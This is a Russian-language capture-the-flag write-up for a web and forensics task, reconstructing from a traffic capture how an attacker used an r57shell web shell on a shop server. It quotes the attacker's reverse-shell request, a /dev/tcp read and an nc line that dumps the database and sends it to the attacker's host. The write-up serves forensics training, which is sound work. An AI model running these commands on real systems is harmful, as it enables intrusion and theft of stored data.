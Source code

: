 # Задание Web+Forensics для балакавров

> Наш магазин взломали и украли базу! 
> К счастью, похоже, что атака была записана сетевым сенсором: https://.../attack_trace.pcap
> 
> Проверьте наши подозрения, и в качестве доказательства предоставьте пароль пользователя VladRoskov37


## Осматриваемся

Нам дан файл attack_trace.pcap — это формат записи трафика PCAP, который умеют открывать инструменты для работы с трафиком. Мы будем использовать Wireshark.

Для того чтобы осмотреться в дампе трафика, удобно использовать статистику подключений: Statistics → Conversations. В дампе есть трафик только между 192.168.192.1 и 192.168.192.64:  
− 25 сессий на 192.168.192.64 порт 80/tcp (HTTP) — обращения к веб-сайту на сервере 192.168.192.64  
− Три обратные сессии с 192.168.192.64 на 192.168.192.1 порты 11457/tcp (долгоживущее подключение, 386 сек), 7777/tcp и 7878/tcp

Вначале проанализируем HTTP-трафик. Для этого в главном списке пакетов применим фильтр `http` и пролистаем запросы. После обычного обращения к сайту, злоумышленник находит веб-шелл r57shell по адресу `/source/bootstrap-3.3.6-dist/_PWNED_LOL/r57shell.php` и подбирает пароль к нему: `r57 / r57`. Далее злоумышленник пользуется r57shell, и в пакете №1843 посылает запрос на поднятие backconnect shell:  
`ip=192.168.192.1&port=11457&use=Perl&dir=%2Fvar%2Fwww%2Fhtml&submit=%D0%92%D1%8B%D0%BF%D0%BE%D0%BB%D0%BD%D0%B8%D1%82%D1%8C`  
Эта функция веб-шелла подключится к хосту 192.168.192.1 на порт 11457 и запустит в этом подключении интерпретатор /bin/sh. 


## Анализируем сессию шелла

Дальнейшее управление взломанным сервером ведётся в подключении на 192.168.192.1:11457, поэтому найдём это подключение и посмотрим на его содержимое, нажав Follow Stream.

Важные команды, которые делает злоумышленник:
− Находит логин и пароль от базы данных:
```php
cat config.php
<?php
$DB = mysqli_connect("localhost", "shop", "DBPW1881818_shop", "shop");
?>
```

− Выводит список таблиц в базе:
```sh
mysql -ushop -pDBPW1881818_shop shop -e "show tables"
Tables_in_shop
cards
news
users
```

− Снимает полный дамп базы в файл /tmp/dump.sql:
```sh
mysqldump -ushop -pDBPW1881818_shop shop > /tmp/dump.sql
```

− Запрашивает пароль для архива, подключаясь на 192.168.192.1:7777 и декодируя его из хексов, и архивирует дамп с этим паролем:
```sh
pass=`xxd -ps -r </dev/tcp/192.168.192.1/7777`
rar m -hp$pass /tmp/dump.rar /tmp/dump.sql
```

− Посылает закодированный в base64 архив на 192.168.192.1:7878
```sh
base64 /tmp/dump.rar | nc 192.168.192.1 7878
```


## Извлекаем данные БД

Во-первых, нам требуется пароль от архива. Его злоумышленник получил с порта 7777, поэтому посмотрим данные сессии на этот порт:
```
42643432384a474e545a444155386a314a463865
```

Пароль раскодируется из хексов, поэтому настоящий пароль от архива:
```python
In [1]: print "42643432384a474e545a444155386a314a463865".decode('hex')
Bd428JGNTZDAU8j1JF8e
```

Во-вторых, извлечём сам архив. Подключение на порт 7878 содержит много данных в base64, сделаем Save as, чтобы сохранить их в файл.  
Раскодируем base64:
```python
In [2]: open("arch.rar", "wb").write(base64.b64decode(open("arch.rar.b64").read()))
```
На винде важно использовать режим `"wb"`, чтобы в архиве не побились байты `\n`, заменившись на `\r\n`.

Этот архив распакуем с паролем `Bd428JGNTZDAU8j1JF8e`, используя 7-zip или WinRAR. Если на вашей системе архиватор не мог распаковать этот архив (RAR версии 5), и вам не дали скачать новый архиватор, подайте апелляцию.

В файле dump.sql, извлечённом из архива, ищем учётную запись пользователя VladRoskov37:
```sql
(4,'vos@vos.uz','VladRoskov37','0h_NO_1_H4ve_B3eN_PWn3D',99,'Vlad','Roskov',1548760464,'127.0.0.2')
```
Из запроса `` CREATE TABLE `users` `` узнаём названия колонок этой таблицы:
```
id    email         login              password       priv firstname lastname lastlogin  loginip
```

Пароль пользователя VladRoskov37, который просят в задании: **0h_NO_1_H4ve_B3eN_PWn3D**

Задание подготовлено сообществом SPbCTF ([vk.com/spbctf](https://vk.com/spbctf), Telegram: [@spbctf](https://t-do.ru/spbctf))

